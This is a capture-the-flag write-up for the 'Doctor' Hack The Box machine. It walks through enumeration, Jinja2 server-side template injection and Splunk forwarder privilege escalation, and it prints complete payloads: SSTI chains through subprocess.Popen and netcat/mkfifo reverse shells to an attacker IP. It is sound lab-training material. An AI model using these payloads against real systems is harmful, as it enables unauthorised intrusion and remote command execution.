








TODO: ADD [Linux, Enumeratin, SSTI, Splunk]
# Doctor (Linux)

## Enumeration

```
rustscan --ulimit 5000 10.129.2.21 -- -sV -o port_scan

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Examine Port 80 - Apache server

Accessing Port 80 via the browser, reveals a website which contains information regarding services and contacts of several doctors. 


Let's run gobuster in the background while we manually explore the website. It would be interesting to find out if it is some kind of CMS such as Wordpress of if it was developed with something different.

Taking a look at the `colorlib` theme, we see it's definitely intended to be used in a WordPress environment.


However, if we try to access the common WordPress directories such as `wp-admin`, we get a HTTP Error 404. So let's wait for gobuster to finish and see if it has found any interesting files/directories.

```
└──╼ $ gobuster dir -u "10.129.2.21" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php                                                                          
===============================================================                                                                                                                           
Gobuster v3.0.1                                                                                                                                                                           
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                                                                           
===============================================================                                                                                                                           
[+] Url:            http://10.129.2.21                                                                                                                                                    
[+] Threads:        10                                                                                                                                                                    
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                                                                          
[+] Status codes:   200,204,301,302,307,401,403                                                                                                                                           
[+] User Agent:     gobuster/3.0.1                                                                                                                                                        
[+] Extensions:     html,php                                                                                                                                                              
[+] Timeout:        10s                                                                                                                                                                   
===============================================================                                                                                                                           
2021/01/20 08:48:43 Starting gobuster                                                                                                                                                     
===============================================================                                                                                                                           
/index.html (Status: 200)                                                                                                                                                                 
/images (Status: 301)                                                                                                                                                                     
/contact.html (Status: 200)                                                                                                                                                               
/about.html (Status: 200)                                                                                                                                                                 
/blog.html (Status: 200)                                                                                                                                                                  
/services.html (Status: 200)                                                                                                                                                              
/css (Status: 301)                                                                                                                                                                        
/js (Status: 301)                                                                                                                                                                         
/departments.html (Status: 200)                                                                                                                                                           
/fonts (Status: 301)                                                                                                                                                                      
/server-status (Status: 403)   
```

This does not look like Wordpress. 

After checking each of the directories and the included files I was pretty stuck. I reran the port scan and facepalmed. My first scan did not discover one of the open ports:

```
PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     syn-ack Apache httpd 2.4.41 ((Ubuntu))
8089/tcp open  ssl/http syn-ack Splunkd httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The machine also has an open Port 8089, which is running a Splunk service.

### Splunk

*Splunk is a data aggregation and search tool often used as a Security Information and Event Monitoring (SIEM) system. Splunk Enterprise Server is a web application which runs on a server, with agents, called Universal Forwarders, which are installed on every system in the network. Universal Forwarder is accessible on each host at https://host:8089. Accessing any of the protected API calls, such as /service/ pops up a Basic authentication box. The username is always admin, and the password default used to be changeme until 2016 when Splunk required any new installations to set a password of 8 characters or higher.* (https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)

### Examine Port 8089 - Splunk



Trying some exploits such as https://www.exploit-db.com/exploits/18245 failed. Also, the default credentials `admin:changeme` did not work, when trying to access the services. Without spending too much time on this, I went back to enumeration on Port 80.


### Back to Port 80 - Apache Server

After going through the wepages again, I saw an email address of the doctor `info@doctors.htb`. Then it hit me: What if I've been looking on the wrong domain for all that time? I quickly added doctors.htb to my hosts file and accessed the website again. ANOTHER BIG FACEPALM! A login page!



### doctors.htb website

The web application allows us to create our own user and then log in with this freshly created user.



Here, we have several possibilities.

1) View and update our account - nothing suspicious there
2) Logout - obviously not suspicious as well
3) Create New Posts 

As we know from the original doctor web application, there was a user called "Admin" that posted some Blog articles. Let's see if we can figure something out:

When creating a new post, it asks us for a title and some content. Afterwards, a nice post gets generated and we can view it on our posts list.



My first idea was to enumerate for users in the url, as a directory was created for my username `babbadeckl`. But we can also try the admin user, as we know that he/she published some posts.



However, the post did not reveal any helpful information. 

Then I remebered a similar challenge which I solved during a CTF a few weeks earlier. The task was to steal the Admin cookie to then impersonate his/her account. The assumption here is, of course, that the admin user will open/look at the posts that I generate. So... I tried to somehow find that XSS vulnerability... But apparently that's not the correct way for this challenge.

After several hours of reaching dead ends, I discovered a directory called `archive`. At first glance it's simply a blank website, but opening the source code it reveals an HTML item:

```

<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>Archive</title>
<item><title>test</title></item>

        </channel>
```

It contained an item with a title element set to `test` ... hmm is that the title from our post? I went back to creating a post with the title `1234`. When reloading the archive source code the item title changed to `1234`. So I was able to control that! That seems suspicious. 

I immediately thought of some kind of injection vulnerability. What is it? Command Injection? Some language in the background that's interpreting my input? Then I remebered a security lab from my university in which we talked about Modern Web Application Exploitation. The big topic there was Sever Side Template Injection (SSTI). I tried the basic payloads and indeed! It's vulnerable to SSTI. I will quickly show you how you can test for SSTI and then identify the underlying template engine.



We simply follow the identification graph in the picture above.

### Testing ${7*7}
```
POST /post/2/update HTTP/1.1
...
title=${7*7}&content=test&submit=Post
```
Check archive:

```
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>Archive</title>
<item><title>${7+7}</title></item>

        </channel>
```
Hmm... No code execution. So we follow the red arrow to `{{7*7}}`.

### Testing {{7*7}}

```
POST /post/2/update HTTP/1.1
...
title={{7*7}}&content=test&submit=Post
```

Check archive:

```
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>Archive</title>
<item><title>49</title></item>

        </channel>
```

The title is `49`! Amazing. Now we only have to find out wheather it's Twig or Jinja2.

The main difference between those two template engines is that Twig has more similarities to Javascript when it comes to certain operations, while Jinja2 is similar to Python.

E.g: `{{7*'7'}}` will result in `49` for Twig and `7777777` for Jinja2. Let's test for that payload!

### Testing {{7*'7'}}

```
POST /post/2/update HTTP/1.1
...
title={{7*'7'}}&content=test&submit=Post
```

Check archive:

```
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>Archive</title>
<item><title>7777777</title></item>

        </channel>	
```

All our findings strongly hint towards Jinja2. So the last step is to now try some Jinja specific commands like `{{config}}`, which is a dictionary-like object that contains all of the configuration values for the application. In most cases, this includes sensitive values such as database connection strings, credentials to third party services, the SECRET_KEY, etc.

### Testing {{config}}

```
POST /post/2/update HTTP/1.1
...
title={{config}}&content=test&submit=Post

```
Check archive:

```
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>Archive</title>
<item><title>&lt;Config { hundreds of variables}
```

So now we definitely know that this must be Jinja2! Let's see how we can exploit this to gain more information or even system access!

## Exploiting Jinja2 

*Credits to `IndominusByte` for the great article about SSTI (https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)*

The config object contains all of the configuration values AFTER they have been resolved by the framework.
Our most interesting discovery also comes from introspecting the config object. While the config object is dictionary-like, it is a subclass that contains several unique methods: `from_envvar`, `from_object`, `from_pyfile`, and `root_path`.


### Inject from config subclass and the true impact of SSTI

The from_object method then adds all attributes of the newly loaded module whose variable name is all uppercase to the config object. The interesting thing about this is that attributes added to the config object maintain their type, which means functions added to the config object can be called from the template context via the config object. To demonstrate this, inject `{{ config.items() }}` into the SSTI vulnerability and note the current configuration entries.

Then inject `{{ config.from_object(‘os’) }}`. This will add to the config object all attributes of the os library whose variable names are all uppercase. Inject `{{ config.items() }}` again and notice the new configuration items. Also, notice the types of these configuration items.

Any callable items added to the config object can now be called through the SSTI vulnerability. The next step is finding functionality within the available importable modules that can be manipulated to break out of the template sandbox.

### Background info
The MRO in `__mro__` stands for Method Resolution Order, and is defined as, “a tuple of classes that are considered when looking for base classes during method resolution.” The `__mro__` attribute consists of the object’s inheritance map in a tuple consisting of the class, its base, its base’s base, and so on up to object (if using new-style classes).

The `__subclasses__` attribute is defined as a method that “keeps a list of weak references to its immediate subclasses.” for each new-style class, and “returns a list of all those references still alive.”
Greatly simplified, `__mro__` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. So what’s the impact on the search for a greater exploit for SSTI in Flask/Jinja2? By starting with a new-type object, e.g. type str, we can crawl up the inheritance tree to the root object class using `__mro__`, then crawl back down to every new-style object in the Python environment using `__subclasses__`. With that, we can access every class loaded in the current python environment!

## Initial Foothold
The first thing we want to do it is to select a new-style object to use for accessing the object base class. We can simply use ‘ ‘, a blank string, object type str or any other Python object such as Integer (e.g. 1) or Bool (e.g True). Then, we can use the `__mro__` attribute to access the object’s inherited classes. Inject {{ ‘’.__class__.__mro__ }} as a payload into the SSTI vulnerability.

Now check the archive again!

```
(<class 'str'>, <class 'object'>)
```

Perfect! Now we can to access the object class element. So we simply append `[1]` to our payload, to access the element at index 1. Furthermore, we add `__subclasses__()`, to then see all the subclasses of the root object.

```
title={{''.__class__.__mro__[1].__subclasses__()}}&content=test&submit=Post
```

In the archive, we can now see a huge list of available classes. Now we have to figure out which one can be used to create a reverse shell.

Going through the available classes we see `subprocess.Popen`. This is the perfect class for our purposes!

Now we only have to figure out the exact index of the class. We can use python slicing for that.

e.g try;:

```
title={{''.__class__.__mro__[1].__subclasses__()[200:]}}
```

And repeat that until subprocess.Popen is the very first element in the list. Then you know the index of the class.

Afterwards you can do following:

```
# Make sure the file /tmp/f does not exist
title={{''.__class__.__mro__[1].__subclasses__()[407]('rm /tmp/f', shell=True, stdout=-1).communicate()}}&content=test&submit=Post

# Create the file and make it a filesystem node
title={{''.__class__.__mro__[1].__subclasses__()[407]('mknod /tmp/f p', shell=True, stdout=-1).communicate()}}&content=test&submit=Post

# Create Reverse shell
title={{''.__class__.__mro__[1].__subclasses__()[407]('/bin/sh 0</tmp/f | nc 10.10.14.26 4444 1>/tmp/f', shell=True, stdout=-1).communicate()}}&content=test&submit=Post
```


And we receive our shell!

```
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

## Gain Access to User

This one took me several hours. First I checked all the common privilege escalation techniques, but none of them was successful.

After that, I tried to somehow abuse the flask application to which we have access to. We can modify the source code and even restart the application. I realized that additional to the `/reset_password` route, also a `/reset_password/token` route exists.

```python
@users.route("/reset_password/<token>", methods=['GET', 'POST'])
def reset_token(token):
    if current_user.is_authenticated:
        return redirect(url_for('main.home'))
    user = User.verify_reset_token(token)
    
    form = ResetPasswordForm()
    if form.validate_on_submit():
        hashed_password = bcrypt.generate_password_hash(form.password.data).deco
de('utf-8')
        user.password = hashed_password
        db.session.commit()
        flash('Your password has been updated! You are now able to log in', 'suc
cess')
        return redirect(url_for('users.login'))
    return render_template('reset_token.html', title='Reset Password', form=form
)
```
This function first validates the provided token. If the token is valid, then we can overwrite the current password of the user with a new password. Let's check how a token is checked for validity.

```python
class User(db.Model, UserMixin):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(20), unique=True, nullable=False)
    email = db.Column(db.String(120), unique=True, nullable=False)
    image_file = db.Column(db.String(20), nullable=False, default='default.gif')
    password = db.Column(db.String(60), nullable=False)
    posts = db.relationship('Post', backref='author', lazy=True)

    def get_reset_token(self, expires_sec=1800):
        s = Serializer(current_app.config['SECRET_KEY'], expires_sec)
        return s.dumps({'user_id': self.id}).decode('utf-8')

    @staticmethod
    def verify_reset_token(token):
        s = Serializer(current_app.config['SECRET_KEY'])
        try:
            user_id = s.loads(token)['user_id']
        except:
            return None
        return User.query.get(user_id)

    def __repr__(self):
        return f"User('{self.username}', '{self.email}', '{self.image_file}')"
```

A reset token gets generated in the `get_reset_token` function. We also know the secret key (1234). So we could theoretically generate such a reset token for the admin user and then request a new password for him.

TBH, I did not try it as I came up with another idea during some thoughtless browsing through the server directories. The Doctor Box Icon contains a "Injection Needle", which could stand for the "SSTI" that we have done previously. But what about that wood piece on the tshirt? Does it refer to "Log"? That's what I wanted to check even more than doing the token thingy. And indeed! We have access to the apache2 logs. More specifically, there is a logfile called `backups`. It contains tons of server requests but one is really interesting.

```
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar12
3" 500 453 "http://doctor.htb/reset_password"
```

Somebody requested a password reset with an email parameter set to `Guitar123`. That's weird. Especially because the route does not even exist. So what could it be? For someone who regularly presses TAB for switching login fields, this might look familiar. What if the user actually wanted to enter the password but pressed TAB too often and landed in the URL where he/she then typed the password and pressed ENTER? I wanted to try if that's the password for a user on the machine. I went into the `/home` directory and checked for existing users. `Shaun` is the only one besides our current user `web`. I typed

```
su shaun
Password: Guitar123
```

Amazing! It works! We now have access to user `shaun`

```
shaun@doctor:/var/log/apache2$ hostname && whoami && id
doctor
shaun
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
```

## Privilege Escalation

Final step is to obtain a root shell. After another round of going through all the common privilege escalation techniques, I was again pretty stuck, until I took a look at the `/etc/passwd` file. 

```
shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
```

Of course! We still have the open Splunk Service on the original IP address. And now that we have a user shell we can also use a tool that's known for Splunk Privilege Escalation (https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2). Problem is that the authorization fails with default credentials... But after some tries, I quickly figured them out: they are the same credentials as our current user `shaun:Guitar123`.



Now we can use the tool to create an App for us (with user specified payload). But don't forget to set up your nc listener!

```
python3 exploit.py --username="shaun" --password="Guitar123" --payload='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.26 5555 >/tmp/f' --payload-file='pwn.sh'
```

(Exploit.py is the PySplunkWhisperer2_local.py, but I renamed it for convenience.)

And we obtain a root shell! We pwned the machine.

